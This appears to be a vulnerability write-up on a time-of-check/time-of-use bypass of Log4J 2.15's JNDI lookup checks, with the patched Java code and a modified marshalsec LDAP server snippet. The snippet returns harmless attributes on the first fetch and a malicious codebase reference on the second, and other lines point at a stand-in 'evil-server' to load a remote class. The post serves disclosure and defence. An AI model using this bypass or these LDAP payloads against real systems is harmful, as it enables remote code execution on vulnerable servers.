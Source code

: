 ```yaml
---
title: "TOCTOU Vulnerability in Log4J 2.15"
date: 2025-01-22
categories: 
  - "cybersecurity"
  - "cybersecurity-awareness"
  - "exploitation"
  - "forensics"
  - "java"
  - "log4j"
  - "security"
  - "security-awareness"
  - "security-awareness-3-0"
tags: 
  - "bypass"
  - "jndi"
---
```


Log4J has been in the spotlight for the past two weeks for a new attack vector which relies on Java Naming and Directory Interface (JNDI). In this blog, we will detail the new mitigation introduced in 2.15 and the bypass we found using a Time of Check, Time of Use vulnerability (TOCTOU). This vector was also discovered independently by Alvaro Muñoz and Tony Torralba. It is likely that many other individuals have reported related bypass techniques because there were multiple weaknesses in the same Java class (`JndiManager`).

  

![](https://blogger.googleusercontent.com/img/a/AVvXsEg7gtceT8evwzGh-PjVe6qJqF11bhu982TrWvDw01qeWQ_JvQxI-QSXKYBXJMu-kbMfzOgO2-cIOSCuZKmTnjyCLEQhNfv9gAk7-RmgZLG-vtVL01fbgnCAYZxNXtmZ4d8q5XsQbDgyfkCUU7F1zgm1Sf48yoLo9tHeTk_q7IhlTixv2SKoEMXWbdVKXw=w510-h281)

### Version affected

Before we dive into the code, we should clarify that only Log4J version 2.15 and below are vulnerable and only if lookups are enabled for backward compatibility. The JNDI lookup feature was still included in 2.15 and additional checks were made to prevent malicious LDAP attributes when the feature is enabled. These new validations fell short due to a Time of Check, Time of Use vulnerability (TOCTOU).

  

### JndiManager validations

The class JndiManager is wrapping the lookup for JNDI which can cause some unexpected code execution specifically if RMI, IIOP or LDAP are used. In Log4J 2.15, RMI and IIOP are not included in the protocol allowlist verification leaving only the LDAP protocol to be used.

Multiples LDAP attribute combinations can be used to trigger code execution. Here are two combinations as described in RFC2713.

1. Factory class
    - javaClassName: PayloadObject
    - javaCodebase: `http://evil-server/`
    - javaFactory: Log4jRCE

With the previous attributes, the class `Log4jRCE` is downloaded from `http://evil-server/Log4jRCE.class` and instantiated.

2. Serializedobject
    - javaClassName: MaliciousGadget
    - javaSerializedData: ACED01A\[….\]
    - javaCodeBase: `http://evil-server/`

Based on the previous, JDNI LDAP context will deserialize the data presented in the field `javaSerializedData`.

When Log4J received the report for the JNDI lookup injection they decided to validate the LDAP entries fetched. For this reason, the name “javaSerializedData”, “javaClassName”, “javaReferenceAddress” and “javaFactory” were added to an attributes deny list in JndiManager. 

  

**JndiManager.java**

```java
Map<String, Attribute> attributeMap = new HashMap<>(); 

NamingEnumeration<? extends Attribute> enumeration = attributes.getAll(); 
while (enumeration.hasMore()) { 
    Attribute attribute = enumeration.next(); 
    attributeMap.put(attribute.getID(), attribute); 
}  

Attribute classNameAttr = attributeMap.get(CLASS_NAME);
if (attributeMap.get(SERIALIZED_DATA) != null) {
    if (classNameAttr != null) {
        String className = classNameAttr.get().toString();
        if (!allowedClasses.contains(className)) {
            LOGGER.warn("Deserialization of {} is not allowed", className);
            return null;
        }
    } else {
        LOGGER.warn("No class name provided for {}", name);
        return null;
    }
} else if (attributeMap.get(REFERENCE_ADDRESS) != null
        || attributeMap.get(OBJECT_FACTORY) != null) {
    LOGGER.warn("Referenceable class is not allowed for {}", name);
    return null;

[...] 

} catch (URISyntaxException ex) { 
    // This is OK. 
}
return (T) this.context.lookup(name); 
```

Ref : Change for LOG4J2-3201

 

  

### The Bypass

The logic, unfortunately, is flawed and it can be bypassed by performing a Time of Check, Time of Use (TOCTOU) attack. You might have found it in the previous code snippet.

Assuming an LDAP entry is fetched using the special expression, the wrapper JndiManager will first load the entry with the method **DirContext.getAttributes()**.

```java
Attributes attributes = this.context.getAttributes(name);
```

Ref : JndiManager.java#L237 

  

If the entry has no risky attribute, the wrapper proceeds to fetch the entry again. The method used here in the final fetch is **DirContext.lookup()**.

```java
return (T) this.context.lookup(name);
```

Ref: JndiManager.java#L273

  

An attacker can create a server that would return regular LDAP attributes (CN, SN, UID, etc.) on the first request and on the second one, return attributes that would trigger Java code execution.

  

| ![](https://blogger.googleusercontent.com/img/a/AVvXsEhyjh1rs4BOFNJQP8X6tfmxXX7sg8os22qbzYG5nEGCi7SsN44aaJgaHu5JDaS2Yqz1fjvXifDdrT9fB3Pqt6t5JK_xZnJdRApNQQY5RKsYvR1SZc6nRTYImiuEE7n7N4rkNWVUDMikah2IHKVPeO7XMbYGo-C4BY95R48S4dzl7ZfwCUAd644Ok_6gjQ=s16000) |
| --- |
| Sequence diagram illustrating the attack |

  

  

How to Reproduce To confirmed the vulnerability, we customized marshalsec’s LDAPRefServer tool by adding the choice to send malicious or normal payload is selected manually. Of course, this could easily be automated using unique JNDI URL to keep track of the first request and second request made by the vulnerable server.

```java
if(<send malicious entry>) { //Second fetch
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }
    e.addAttribute("javaCodeBase", cbstring);
    e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
    e.addAttribute("javaFactory", this.codebase.getRef());

}
else { //First fetch
    e.addAttribute("cn", "Test");
    e.addAttribute("sn", "test");
    e.addAttribute("uid", "test");
    e.addAttribute("telephoneNumber", "123");
}
```

 

### Conclusion

If you update your Log4J library to 2.15, it will not be enough to mitigate all potential remote code execution.  At the moment of this writing, 2.17 is the recommended version. Make sure to read the official Log4J advisory page to get the latest update on the vulnerability. It is worth noting that two other vulnerabilities were found on Log4J 2.15: a Denial of Service (DOS) with `${ctx}` expression and a hostname parsing validation bypass that brings back the remote code execution (RCE) vector.

 

###   

### References

- Official Log4J advisory page
- Log4Shell Update: Severity Upgraded 3.7 -> 9.0 for Second log4j Vulnerability (CVE-2021-45046)

 

### Timeline

- December 10: Log4j 2.15.0 release (Vulnerable to TOCTOU)
- December 13: Log4j 2.16.0 release (JNDI fully disabled)
- December 16: Vulnerability reported by Tony Torralba and Alvaro Muñoz (Ref)
- December 16: Vulnerability reported by GoSecure
- December 17: Log4J 2.15 severity raised from 3.7 to 9.0
- December 18: Log4j 2.17.0 release
- December 20: Received confirmation that the Log4J team is aware of the TOCTOU.

  

  

_This blog was originally posted on GoSecure blog._

Go to Source
